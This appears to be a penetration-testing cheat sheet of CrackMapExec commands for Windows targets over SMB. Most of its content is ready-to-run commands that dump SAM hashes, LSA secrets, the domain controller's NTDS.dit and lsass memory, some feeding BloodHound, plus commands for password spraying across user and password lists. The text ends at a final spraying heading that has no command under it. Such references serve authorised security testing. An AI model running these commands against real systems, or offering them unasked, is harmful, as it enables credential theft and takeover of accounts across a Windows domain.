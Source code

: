 ## Dump SAM
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --sam
```

## Dump LSA
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --lsa
```

## dump ntds.dit
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --ntds
```

## dump lsass
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> -u <user> -p <password> -d <domain> -M lsassy
```

## dump lsass - with bloodhond update
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## password spray (user=password)
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## password spray multiple test 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning
